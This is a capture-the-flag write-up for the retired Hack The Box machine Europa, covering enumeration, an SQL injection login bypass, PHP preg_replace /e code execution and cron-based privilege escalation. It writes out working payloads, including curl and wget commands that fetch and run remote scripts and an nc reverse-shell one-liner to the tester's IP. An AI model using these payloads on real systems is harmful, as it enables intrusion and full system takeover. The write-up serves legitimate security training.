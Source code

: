 # Europa

This is the write-up for the box Europa that got retired at the 2nd December 2017.
My IP address was 10.10.14.28 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.22    europa.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/europa.nmap 10.10.10.22
```

```markdown
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Putting _www.europacorp.htb_ and _admin-portal.europacorp.htb_ into the hosts file.

## Checking HTTP and HTTPS (Port 80 & 443)

When browsing to the web page on HTTP and HTTP with the IP address, the websites only have the default Apache2 installation page.
Checking the SSL certificate we get a potential email address _admin@europacorp.htb_ and the DNS subdomains that Nmap found.

Browsing to the sites on HTTP and HTTPS with the hostname _europacorp.htb_ it still shows the default Apache2 installation page.
The site _admin-portal.europacorp.htb_ on HTTPS shows a login page.

![Login Page](https://kyuu-ji.github.io/htb-write-up/europa/europa_login.png)

When typing in an email address it filters for symbols, so lets try a simple **SQL Injection**:
```markdown
email=admin%40europacorp.htb'-- -&password=test123
```

This gets us logged in on the page and now we see some kind of dashboard:

![Dashboard after login](https://kyuu-ji.github.io/htb-write-up/europa/europa_dashboard.png)

All buttons and links do nothing, except for **Tools** on the left side menu that forwards to some **OpenVPN Config Generator**:

![Tools Page](https://kyuu-ji.github.io/htb-write-up/europa/europa_tools.png)

Any string that gets typed into the input field replaces the _"remote-addres":"ip_address"_ with that input.
The request looks like this:
```markdown
pattern=/ip_address/&ipaddress=tester&text="openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}
```

Trying to replace the _pattern=/ip_address/_ with _pattern=/vtun0/_, injection of strings in different parts of the configuration is possible.
We can guess that these slashes are for **regular expressions** and those are created in PHP with the [preg_replace()](https://www.php.net/manual/en/function.preg-replace.php) function.

This function can be used to execute code on the system by adding an **/e** after the pattern and then call the PHP code:
```markdown
pattern=/ip_address/e&ipaddress=system('whoami;')&text="openvpn": {
(...)
```

This pattern executes `whoami` with the result _www-data_ and we got code execution.

### Starting a Reverse Shell

We can upload any PHP reverse shell by starting a web server and sending a `curl` command to our local machine:
```markdown
pattern=/ip_address/e&ipaddress=system('curl http://10.10.14.28/php-reverse-shell.php | php')&text="openvpn": {
(...)
```

Sending this request starts a reverse shell on our listener as _www-data_.

## Privilege Escalation

To get an attack surface it would be useful to start any Linux enumeration script on the box:
```markdown
wget http://10.10.14.28/LinEnum.sh | bash
```

One of the **Cronjobs** is not default and executes the script _/var/www/cronjobs/clearlogs_ every minute which looks like this:
```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

The **logcleared.sh** file does not exist but the folder **/var/www/cmd/** is owned by the group _www-data_ and has write permission for it.
So we create this particular file with a command for a reverse shell and make it executable:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9002 >/tmp/f

chmod +x logcleared.sh
```

After a minute the listener on my IP and port 9002 starts a reverse shell as root!
